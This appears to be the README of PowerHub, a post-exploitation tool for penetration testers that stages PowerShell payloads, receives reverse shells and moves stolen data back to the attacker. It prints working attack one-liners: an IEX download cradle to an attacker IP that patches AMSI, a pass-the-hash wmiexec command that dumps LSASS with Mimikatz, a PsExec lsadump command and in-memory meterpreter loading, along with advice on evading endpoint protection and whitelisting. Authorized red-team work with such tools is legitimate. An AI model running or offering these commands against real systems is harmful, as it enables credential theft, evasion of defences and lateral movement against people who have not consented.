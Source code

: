 PowerHub
========

PowerHub is a convenient post exploitation tool which aids a pentester in
transferring files, in particular code which may get flagged by endpoint
protection.

![PowerHub Webapp](https://github.com/AdrianVollmer/PowerHub/blob/master/img/powerhub-webapp.png)

During an engagement where you have a test client available, one of the
first things you want to do is run PowerSploit. So you need to download the
files, messing with endpoint protection, disable the execution policy, etc.
PowerHub provides an (almost) one-click-solution for this. Oh, and you can
also run arbitrary binaries (PE and shell code) entirely in-memory using
PowerSploit's modules, which is sometimes useful to bypass application
whitelisting.

Your loot (Kerberos tickets, passwords, etc.) can be easily transferred back
either as a file or a text snippet, via the command line or the web
interface. PowerHub also helps with collaboration in case you're a small
team.

On top of that, PowerHub comes with a powerful reverse PowerShell, making
it suitable for any kind of post-exploitation action.

Here is a simple example (grab information about local groups with PowerView
and transfer it back):

```
PS C:\Users\avollmer> $K=new-object net.webclient;$K.proxy=[Net.WebRequest]::GetSystemWebProxy();$K.Proxy.Credent
ials=[Net.CredentialCache]::DefaultCredentials;IEX $K.downloadstring('http://192.168.11.2:8000/0');
  _____   _____  _  _  _ _______  ______ _     _ _     _ ______
 |_____] |     | |  |  | |______ |_____/ |_____| |     | |_____]
 |       |_____| |__|__| |______ |    \_ |     | |_____| |_____]
                            written by Adrian Vollmer, 2018-2019
Run 'Help-PowerHub' for help
AmsiScanBuffer patch has been applied.
0
PS C:\Users\avollmer> lhm powerview
[*] /ps1/PowerSploit/Recon/PowerView.ps1 imported.
PS C:\Users\avollmer> Get-LocalGroup | ConvertTo-Json | Out-file groups.json
PS C:\Users\avollmer> pth groups.json
```

![PowerHub in action](https://github.com/AdrianVollmer/PowerHub/blob/master/img/inaction.png)

How it works
============

The web application is made with Flask and consists of four parts.

The Hub
-------

The hub uses PowerShell to load modules and binaries in memory. The binaries
can be executed directly from memory with
[PowerSploit's](https://github.com/PowerShellMafia/PowerSploit)
`Invoke-ReflectivePEInjection`.

Modules have to be placed in `./modules` and can be either PowerShell
scripts, .NET or PE executables, or shell code. You can load them on the
target via PowerShell with `Load-HubModule`. Run `Help-PowerHub` for more
information.

PowerHub on the attacker system simply looks for `*.ps1` or `*.exe` files.
They need to be in their respective directory, though, so `exe` files need
to be in `modules/exe` (or at least symlinked), and so forth. The `*.ps1`
files are imported on the target via `[Scriptblock]::Create()`.

A simple interface to install modules is provided for your convenience.

The Receiver
------------

*EXPERIMENTAL*

The receiver catches incoming reverse shells and lists them here. Each shell
receives a random ID consisting of an eight digit hex string. You can
interact with it by executing the accompanying script: `./ph <ID>`.

This lands you inside a PowerShell instance. It's a _nice_ shell, too: It
supports colors, a history, tab completion, vim/emacs edit modes, it
respects your terminal's column count and accidentally pressing CTRL+C is
not a big deal - simply reconnect to it. Run `./ph -h` for more information.

The Clipboard
-------------

The clipboard functionality is meant for exchanging small snippets, such as
hashes, passwords, one-liners, and so forth. It's like an extremely basic
[Etherpad](https://etherpad.org/) or a guest book.

The File Exchange
-----------------

The file exchange offers a way to transfer files via HTTP back to the host.
Think [Droopy](https://github.com/stackp/Droopy).

If you have the necessary Python modules installed, a WebDAV service is also
started. You can mount it on the target as two network drives with
`Mount-WebDAV` (as 'S:' by default). Be careful, it allows anonmyous access.
One drive is read-only -- maybe you can bypass a weak anti virus with this.
The other has two folders and writeable by everyone:

* `public` with read/write access for everyone
* `blackhole` for dropping sensitive data. Any file placed here via WebDAV
  will immediately be moved to the `upload` directory in `$XDG_DATA_HOME`.

The dependencies for the WebDAV service are `wsgidav` (installable via
`pip3`), `cheroot` and `watchdog`.

Usage
=====

PowerHub has one mandatory arguments: the callback host (can be an IP
address). You should also use `--auth <user>:<pass>`, otherwise, a randomly
generated password will be used for basic authentication. The switch
`--no-auth` disables basic authentication which is *not recommended*. The
callback host name is used by the stager to download the payload. If the
callback port or path differ from the default, it can also be changed.

Read `./powerhub.py --help` for details.

Examples
========

One nice application is, for example, the case where you have obtained some
local administrator password hash and want to move laterally. This dumps the
LSASS creds with Mimikatz via Impacket's `wmiexec.py`, tricking many
endpoint protection tools:

```
wmiexec.py -hashes :deadbeef0000000000000000deadbeef \
    ./administrator@10.0.1.4  \
    'powershell -c "$K=new-object net.webclient;IEX $K.downloadstring(\"http://10.0.100.13:8000/0\"); Load-Hubmodule Mimikatz ; Invoke-Mimikatz -DumpCreds "'
```

Or similarly, if you obtained the `krbtgt` hash and created a golden ticket
which you injected with Mimikatz. Then you can get the NTLM hash of any
arbitrary user in the forest:

```
PS C:\Users\pentestuser> .\PsExec64.exe \\DC01.acme.local -s powershell -c '$K=new-object net.webclient;IEX $K.downloadstring(\"http://192.168.1.5:8000/0\");load-hubmodule mimikatz; Invoke-Mimikatz -Command ''\"lsadump::lsa /inject /name:adm_targetuser\"'''
```

Getting the escape sequence on the quotes right can be tough...

Let's say you want to execute a meterpreter in memory, then you do this:

```
PS C:\Users\pentestuser> lhm ReflectivePEInjection; lhm meterpreter.exe|re
```

Credits
=======

PowerHub is based on the awesome work of zeroc00l, mar10, p3nt4. Thanks!

Author
======

Adrian Vollmer, 2018-2019

Disclaimer
==========

Use at your own risk. Do not use without full consent of everyone involved.
For educational purposes only.
